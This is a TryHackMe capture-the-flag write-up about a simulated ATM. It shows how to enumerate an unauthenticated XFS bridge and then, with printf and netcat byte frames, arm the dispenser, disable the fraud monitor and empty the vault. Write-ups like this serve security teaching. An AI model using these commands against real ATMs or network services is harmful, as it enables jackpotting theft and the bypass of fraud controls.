





# [Jackpot] Writeup

**TryHackMe:** [https://tryhackme.com/room/jackpot]

## Overview

**Category** -- [Network services / protocol analysis]

**Difficulty** -- [Medium]

**Provided Info** -- [A single target machine IP, and some hints about a protocol that doesn't require authentication]

**Questions:**

- `What is the flag?`

---

## 1. Nmap Recon

I started with a default `nmap` script scan with this command:
```
nmap -sV [target_ip]
```

I found 3 ports opened:


| Port | Service    |
| ---- | ---------- |
| 22   | ssh        |
| 8080 | http       |
| 9100 | jetdirect? |
## 2. Inspecting the website
The jetdirect service is one ill have to look into more later but for now i decided to check out the website:



The website had some information on it that i discovered was `json` data fetched from the `/status` directory.  At the bottom of the webpage there's an option to download the jackpot service tool.
## 3. Inspecting the downloaded file

After downloading it i used the `file` command on it to see what type of file it is. Since its an ELF file (Executable and linkable format) i have to give it executable permissions to run it:



As you can see above the file requires a 6 digit session code to be inputted and it will output an activation code. I saved this code for possible usage later.

## 4. Using `netcat` to investigate a service
I decided to check out that suspicious service on port `9100` by connecting to it with netcat using this command:
```
nc [target_ip] 9100
```

After connecting it gives me a cryptic looking output:
```
{"service": "Branch Engineering Gateway", "protocol": "XFS bridge", "request_format": "1 byte msg_type + 4 byte big-endian command id + 2 byte big-endian length + <length> bytes of data", "reply_format": "2 byte big-endian length + <length> bytes of JSON (this banner uses the same framing)", "msg_types": {"GETINFO": "0x01", "EXECUTE": "0x02"}, "hint": "query command 0x0304 (WFS_INF_CDM_CAPABILITIES) with msg_type GETINFO for the full command table"}
```

It says it's an XFS bridge for the ATM and Its telling me the rules for communicating with this process, it requires me to enter a message composed of bytes in this format:

| Order          | Bytes    | Data                  |
| -------------- | -------- | --------------------- |
| 1st            | 1        | msg_type              |
| 2nd            | 4        | big-endian command id |
| 3rd            | 2        | big-endian [length]   |
| 4th (optional) | [length] | bytes of JSON         |
Big-endian is the order in which to write the bytes, it means the most significant bytes first (the bytes that represent the highest numbers). The most significant bytes will always be the first bytes just like in a number like 153 - 1 represents 100, 5 represents 50 and 3 represents 3. The number 1 is most significant as it represents the highest amount of the total number.

The processes output also contained some commands and their correlated byte identifers:

| Message type | Byte Identifier | Purpose             |
| ------------ | --------------- | ------------------- |
| GETINFO      | `0x01`          | Request information |
| EXECUTE      | `0x02`          | Submit a command    |
Lastly the output also gave us a hint to use the `getinfo` message type with the query command which is `0x0304`.

So the final string I constructed looks like this:
```
01 00 00 03 04 00 00
```

- `01` - Message type: `GETINFO`
- `00 00 03 04` - query command expanded from the original 2 bytes (0x0304) to 4 bytes as the format requested
- `00 00` - this is the length of the extra data i'm sending (since i'm sending no extra data these are set to 0)
Even though the format says `bytes of JSON` at the end, that part is only required if you are sending data.

## 5. Communicating with the XFS service
Then i constructed a command that uses these bytes to communicate with the XFS Bridge on port 9100, requesting the full command table by using the `WFS_INF_CDM_CAPABILITIES` command:
```
printf '\x01\x00\x00\x03\x04\x00\x00' | nc -q 2 [target_ip] 9100 | strings
```

- `printf` - prints the following string to the terminal
- `'\x01\x00\x00\x03\x04\x00\x00'` - each byte is preceded by a backslash and an `x` which tells printf that it is a hexadecimal digit that represents a byte 
- `|` - the pipe operator moves the `printf` commands output to instead be sent to the following command 
- `nc -q 2 [target_ip] 9100`  - uses netcat to connect to the target ip on the specified port and quit after 2 seconds
- `| strings` - the output of `netcat` is then piped to `strings` which helps format it slightly more readable by adding correct newlines and spaces.
(The reason `netcat` needs to quit after 2 seconds is because the output cannot be piped to strings if i quit the program, so the program needs to quit on its own.)

Heres the output i got from the XFS Bridge after using the `WFS_INF_CDM_CAPABILITIES` command :
```
{"rc": "WFS_SUCCESS", "interface": "Branch Engineering Gateway (XFS bridge)", "device_class": "CDM", "commands": {"WFS_INF_CDM_STATUS": "0x301", "WFS_INF_CDM_CASH_UNIT_INFO": "0x303", "WFS_INF_CDM_CAPABILITIES": "0x304", "WFS_CMD_CDM_DISPENSE": "0x401", "WFS_CMD_CDM_ARM": "0x4f0", "WFS_CMD_CDM_SET_MONITOR": "0x4f1", "WFS_CMD_CDM_GET_FLAG": "0x4ff"}, "max_dispense": 40}
```

This output gives us a new list of commands we can use:

| Command                      | Bytes    | Purpose                        |
| ---------------------------- | -------- | ------------------------------ |
| `WFS_INF_CDM_STATUS`         | `0x0301` | View ATM status                |
| `WFS_INF_CDM_CASH_UNIT_INFO` | `0x0303` | View cash specific information |
| `WFS_INF_CDM_CAPABILITIES`   | `0x0304` | View all commands              |
| `WFS_CMD_CDM_DISPENSE`       | `0x0401` | Dispense notes                 |
| `WFS_CMD_CDM_ARM`            | `0x04F0` | Arm the ATM dispenser          |
| `WFS_CMD_CDM_SET_MONITOR`    | `0x04F1` | Change the fraud monitor       |
| `WFS_CMD_CDM_GET_FLAG`       | `0x04FF` | Retrieve the CTF flag          |
## 6. Attempting new commands
I used the `WFS_INF_CDM_STATUS` command and the `WFS_INF_CDM_CASH_UNIT_INFO` command and they just revealed the same information i can view in the `/status` directory on the website.

I attempted to dispense some notes with the `WFS_CMD_CDM_DISPENSE` command:
```
printf '\x01\x00\x00\x04\x01\x00\x00' | nc -q 2 [target_ip] 9100 | strings
```

And heres the response i got:
```
T{"rc": "WFS_ERR_CDM_NOTARMED", "detail": "DISPENSE denied - not in supervisor mode"}
```

So i must use the `WFS_CMD_CDM_ARM` command first to put the dispenser in supervisor mode:
```
printf '\x01\x00\x00\x04\xf0\x00\x08''50633155' | nc -q 2 [target_ip] 9100 | strings
```

Heres the output:
```
:{"rc": "WFS_SUCCESS", "detail": "armed - supervisor mode"}
```

I then dispensed the notes and received `40` notes out of the `280`, but when i tried to dispense more it locked it due to the fraud monitor, so i figured out that if i use the  `WFS_CMD_CDM_SET_MONITOR` command with the extra data set to `0` i can turn the fraud monitor off:
```
printf '\x01\x00\x00\x04\xf1\x00\x01''0' | nc -q 2 [target_ip] 9100 | strings
```

And heres the response:
```
*{"rc": "WFS_SUCCESS", "monitor_on": false}
```

## 7. Emptying the ATM Vault

I then spammed the `WFS_CMD_CDM_DISPENSE` command until the vaults were empty as you can see in this screenshot:


## 8. Receiving the `flag`
I can now access the flag with the `WFS_CMD_CDM_GET_FLAG` command:
```
printf '\x01\x00\x00\x04\xff\x00\x00' | nc -q 2 [target_ip] 9100 | strings
```

## Conclusion
This CTF required a few different techniques in order to capture the hidden flag on the target machine.

Some of the skills required to complete this CTF are:
- Port scanning and service enumeration with `nmap`
- Intermediate knowledge of tools like `printf`,  `netcat` and `strings`
- Familiarity with the Linux CLI (Command-Line Interface) and common operators like pipe `|`.
- Understanding of bytes, bits, and hexadecimal digits
- Ability to construct messages with specific message types, command id's, payload lengths and data
- Ability to read and interpret complicated service outputs
## What I Learned
During this CTF I became much more familiar with bytes, bits and hexadecimal digits, understanding things like formatting (big-endian vs little-endian) and what certain bytes actually represent. I learned how to use `printf` to correctly format the bytes i needed to send to the XFS Bridge, and that `strings` is a useful tool for making complex strings of text slightly more readable by removing unreadable binary and helping with formatting.